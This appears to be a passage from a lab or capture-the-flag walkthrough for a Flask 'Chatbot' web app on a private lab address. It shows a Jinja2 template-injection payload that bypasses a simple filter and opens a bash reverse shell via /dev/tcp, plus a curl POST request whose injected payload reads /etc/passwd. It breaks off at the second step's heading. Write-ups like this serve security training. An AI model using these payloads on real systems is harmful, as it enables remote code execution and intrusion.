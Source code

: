 ```sh
$ curl -I -L http://192.168.64.18:30007
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Wed, 22 Nov 2023 22:41:44 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1833
Connection: close
```
<a id="item-one"></a>
## Step 1: Exploring the Web Frontend
First, we access the web frontend and exploit a SSTI to gain a foothold on the system.

![N|Solid](./images/Chatbot.png) 

There is a basic filter which does not allow "{{" at the start of the input. We can bypass the filter with this payload:
```python 
a{{request.application.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i &>/dev/tcp/<IP>/<PORT> <&1"').read()}}
```

Alternativly you can use Burp to send a POST request like this:
```sh
curl -i -s -k -X $'POST' \
    -H $'Host: 192.168.64.18:30007' -H $'Content-Length: 153' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://192.168.64.18:30007' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://192.168.64.18:30007/get_response' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    --data-binary $'conversation=A&user_input=a+%7B%7B+self._TemplateReference__context.cycler.__init__.__globals__.os.popen%28%27cat+%2Fetc%2Fpasswd%27%29.read%28%29+%7D%7D' \
    $'http://192.168.64.18:30007/get_response'
```
## Step 2: Enumerating our envioment 
